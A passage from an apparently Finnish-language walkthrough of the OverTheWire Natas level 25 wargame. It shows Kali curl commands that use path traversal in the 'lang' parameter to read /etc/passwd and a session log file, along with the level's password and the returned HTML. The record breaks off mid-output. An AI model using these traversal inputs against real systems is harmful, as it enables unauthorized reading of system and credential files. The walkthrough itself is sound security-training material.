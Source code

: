 
Jos istuntosi on aktiivinen ja eväste mukana, saat saman tuloksen kuin curlilla

```
┌──(kali㉿kali)-[~]
└─$ curl "http://natas25.natas.labs.overthewire.org/?lang=../../../../etc/passwd" \
  --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<h2>Quote</h2><p align="justify">You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe, because we, we who don't even exist, we arrange our lives with more order and harmony than God ever arranged the earth. We measure; we plot; we create wonderful new things. We are the architects of our own existence. What a lunatic concept to bow down before a God who slaughters millions of innocent children, slowly and agonizingly starves them to death, beats them, tortures them, rejects them. What folly to even think that we should not insult such a God, damn him, think him out of existence. It is our duty to think God out of existence. It is our duty to insult him. Fuck you, God! Strike me down if you dare, you tyrant, you non-existent fraud! It is the duty of all human beings to think God out of existence. Then we have a future. Because then - and only then - do we take full responsibility for who we are. And that's what you must do, Bubby: think God out of existence; take responsibility for who you are.<div align="right"><h6>Scientist, Bad Boy Bubby</h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>


┌──(kali㉿kali)-[~]
└─$ curl "http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_7cbgukbicl92os5d1a9icj81l5.log" \
  --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws \
  --cookie "PHPSESSID=7cbgukbicl92os5d1a9icj81l5"     
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
```